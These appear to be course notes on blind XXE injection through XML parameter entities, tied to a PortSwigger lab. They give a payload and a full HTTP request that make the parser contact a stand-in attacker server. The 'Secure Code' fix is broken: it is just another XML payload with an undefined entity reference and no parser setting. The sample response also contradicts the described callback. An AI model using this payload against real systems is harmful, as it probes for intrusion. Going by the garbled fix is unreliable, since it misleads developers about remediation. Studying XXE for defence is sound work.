

## Parameter Entities

### What are Parameter Entities?

Parameter entities are a special type of XML entity that can be used to define other entities. Unlike general entities, parameter entities are only available in the DTD (Document Type Definition) section of the XML document. They are denoted by a `%` symbol.

### Why Use Parameter Entities?

Parameter entities are used to define other entities, which can be useful in complex XML documents. However, they can also be used to bypass certain security mechanisms that restrict the use of general entities.

### How Do Parameter Entities Work?

Parameter entities can be used to define other entities, including external entities. This allows attackers to bypass restrictions on the use of general entities by using parameter entities instead.

### Step-by-Step Mechanics

Let's break down the steps involved in using parameter entities to perform a blind XXE attack:

1. **Define the Parameter Entity**:
   - The attacker defines a parameter entity that references an attacker-controlled server.
   - This entity is typically defined using the `%` symbol in the DTD section of the XML input.

2. **Inject the Malicious XML**:
   - The attacker sends the XML input containing the malicious parameter entity to the application.
   - The application attempts to parse the XML input, which triggers the request to the attacker-controlled server.

3. **Monitor the Attacker-Controlled Server**:
   - The attacker monitors the server to confirm whether the request was made.
   - If the request is made, the attacker knows that the entity was processed by the application.

### Complete Example

Here is a complete example of how to perform a blind XXE attack using parameter entities:

#### Vulnerable Code

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % xxe SYSTEM "http://attacker-controlled-server.com">
%xxe;
]>
<test>&xxe;</test>
```

#### Secure Code

To prevent this attack, the application should disable external entity processing. Here is the secure version of the code:

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % xxe "">
%xxe;
]>
<test>&xxe;</test>
```

### Full HTTP Request and Response

#### HTTP Request

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-application.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % xxe SYSTEM "http://attacker-controlled-server.com">
%xxe;
]>
<test>&xxe;</test>
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 23 Jan 2023 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 123

<!DOCTYPE html>
<html>
<head>
<title>Error</title>
</head>
<body>
<h1>Entities are not allowed for security reasons.</h1>
</body>
</html>
```

### Mermaid Diagram



---
<!-- nav -->
[[07-Lab Setup and Environment|Lab Setup and Environment]] | [[Web Security (PortSwigger)/08-XXE Injection/05-Lab 4 Blind XXE with out of band interaction via XML parameter entities/00-Overview|Overview]] | [[09-Testing for XXE Injection|Testing for XXE Injection]]
